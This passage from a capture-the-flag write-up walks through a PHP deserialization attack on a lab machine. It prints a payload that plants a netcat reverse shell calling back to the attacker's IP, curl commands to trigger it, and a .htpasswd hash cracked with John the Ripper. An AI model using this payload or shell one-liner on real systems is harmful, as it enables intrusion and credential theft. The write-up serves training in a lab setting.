 ```php
┌──(kali㉿kali)-[/data/Debug/files]
└─$ cat shell.php
<?php
class FormSubmit {
  public $form_file = 'shell.php';
  public $message = '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 4444 >/tmp/f"); ?>';
}
$oForm = new FormSubmit;
echo urlencode(serialize($oForm));
?>
```

Now, let's pass the resulting payload to the `debug` variable of the `index.php` page. It will create a `shell.php` file on the server, with the content we put in the `$message` variable.

~~~
┌──(kali㉿kali)-[/data/Debug/files]
└─$ curl -s http://10.10.196.165/index.php?debug=`php shell.php`
~~~

Now, start a listener (`nc -nlvp 4444`) and browse `shell.php`:

~~~
┌──(kali㉿kali)-[/data/Debug/files]
└─$ curl -s http://10.10.196.165/shell.php
~~~

## James password

We now have a reverse shell. We can't access `james`' home folder to get the user flag. But analyzing the files in the web directory shows a `.htpasswd` file, with a hash, which may be `james`' password.

~~~
www-data@osboxes:/var/www/html$ cat .htpasswd
cat .htpasswd
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
~~~

Let's crack the hash:

~~~
┌──(kali㉿kali)-[/data/Debug/files]
└─$ /data/src/john/run/john james.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jamaica          (james)
1g 0:00:00:00 DONE (2021-05-20 14:58) 50.00g/s 38400p/s 38400c/s 38400C/s evelyn..james1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~
